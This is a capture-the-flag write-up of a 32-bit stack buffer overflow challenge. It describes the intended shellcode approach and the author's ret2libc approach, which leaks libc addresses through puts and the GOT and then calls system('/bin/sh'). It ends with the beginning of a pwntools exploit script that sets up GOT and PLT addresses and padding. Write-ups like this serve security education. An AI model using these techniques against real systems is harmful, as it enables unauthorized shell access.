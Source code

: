 </p>

The intended solution, as I understand it, is to take advantage of the buffer's stack address that's being leaked. These are the steps to exploit it:
- Execute the program inserting some padding and overwrite `get_tree`'s return address with the address of `get_tree` so it gets executed again and not return back to main.
- You are now in the second iteration of the program so given the address that has just been leaked (that's where the input will be), insert shellcode + padding and overwrite `get_tree`'s return address with the address leaked. 
- This way you leak the address of the input on the stack, execute the vulnerable function again, insert the shellcode and jump to it. The leak is necessary since the server has ASLR activated (we know this because stack, amongst other memory regions, are randomized). Bear in mind that overwriting `get_tree`'s return address with its own address allows us to basically have infinite iterations of the vulnerable call.

You can find writeups about the intended solution [here](https://ctftime.org/writeup/20754) and [here](https://ctftime.org/writeup/20727).

The solution I implemented is not the intended and I feel like it is somewhat an overkill for this challenge. However, it's a solution that works with this and harder challenges :)

My solution is a ret2libc attack. I performed it leaking the version of libc used in the server by printing the addresses of several dynamically loaded functions and then, using the corresponding offsets, calling system(/bin/sh) to get a shell. 

Here's the script:

```python
# RazviOverflow
# Python3

from pwn import *

binary = ELF("./binary")

#print(binary.symbols)

got_puts = p32(binary.got[b"puts"])
#got_gets = binary.got[b"gets"]
#got_libc_start_main = binary.got[b"__libc_start_main"]
got_setbuf = p32(binary.got[b"setbuf"])
got_strcasecmp = p32(binary.got[b"strcasecmp"])

plt_puts = p32(binary.plt[b"puts"])
#plt_gets = binary.plt[b"gets"]
#plt_libc_start_main = binary.plt[b"__libc_start_main"]
#plt_setbuf = binary.plt[b"setbuf"]
#plt_strcasecmp = binary.plt[b"strcasecmp"]
get_tree_addr = p32(binary.symbols[b"get_tree"])

#binary = process("binary")
'''
0x08049e74      .dword 0xf7dd3480  ; RELOC 32 setbuf        
0x08049e78      .dword 0x080483d6  ; RELOC 32 printf        
0x08049e7c      .dword 0xf7dcbb00  ; RELOC 32 gets          trailing null byte. Won't get printed by puts.
0x08049e80      .dword 0xf7dcc550  ; RELOC 32 puts
0x08049e84      .dword 0xf7d7be00  ; RELOC 32 __libc_start_main   trailing null byte. Won't get printed by puts.
0x08049e88      .dword 0xf7ebcea0  ; RELOC 32 strcasecmp
'''

# Buffer is at ebp - 0x10c 
padding = b"A" * 0x10c
padding += b"B" * 4 # saved_ebp or old_ebp, whatever you want to call it

```